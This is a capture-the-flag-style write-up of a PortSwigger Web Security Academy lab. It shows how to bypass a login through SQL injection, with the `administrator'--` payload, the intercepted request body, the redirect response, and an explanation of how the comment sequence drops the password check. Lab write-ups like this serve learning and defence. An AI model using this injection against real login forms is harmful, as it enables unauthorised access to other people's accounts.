


# SQL Injection Lab: Vulnerability Allowing Login Bypass

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Apprentice  
**Date Completed:** 23 November 2026  
**Status:** Solved

---

## Lab Description

This lab contains a SQL injection vulnerability in the login function. The application uses a vulnerable SQL query similar to:

```sql
SELECT * FROM users WHERE username = 'input' AND password = 'input'
```

The goal is to bypass authentication and log in as the `administrator` user.

---

## Tools Used

- Burp Suite Community Edition (Proxy + Repeater)
- Firefox with FoxyProxy

---

## Solution Steps

### 1. Intercept the Login Request

1. Open the lab and go to the login page.
2. Enter any username and password.
3. Intercept the request in Burp Suite (Proxy → Intercept or HTTP history).
4. Send the request to **Repeater**.

### 2. Craft the Payload

In the **Repeater** tab, modify the `username` parameter to:

```http
administrator'--
```

Keep the password field as anything (e.g. `bluecheese`) and do not change the CSRF token.

**Final request body:**

```http
csrf=...&username=administrator'--&password=bluecheese
```

### 3. Send the Request

Click **Send**.

**Successful response:**

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
```

The server redirected us to the administrator account page.

### 4. Confirm in Browser

To get the lab marked as solved, submit the same payload (`administrator'--`) directly through the login form in the browser. PortSwigger tracks progress based on the browser session.

---

## Why the Payload Works

The original query looks like this:

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'bluecheese'
```

After injecting `administrator'--`, the query becomes:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

Explanation:
- The single quote `'` closes the username string.
- `--` comments out the rest of the query (including the password check).
- As a result, the password is never verified and the login succeeds as `administrator`.

---

## Screenshots

### Successful login in the browser



### Payload in Burp Suite Repeater



---

## Key Takeaways

- Classic authentication bypass using SQL injection.
- The `--` comment sequence is very effective for removing the rest of the query.
- CSRF tokens must remain valid — always start from a fresh intercepted request.
- PortSwigger only marks the lab as solved when the successful login happens in the browser context.

---

## References

- [PortSwigger – SQL injection](https://portswigger.net/web-security/sql-injection)
- [Lab link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
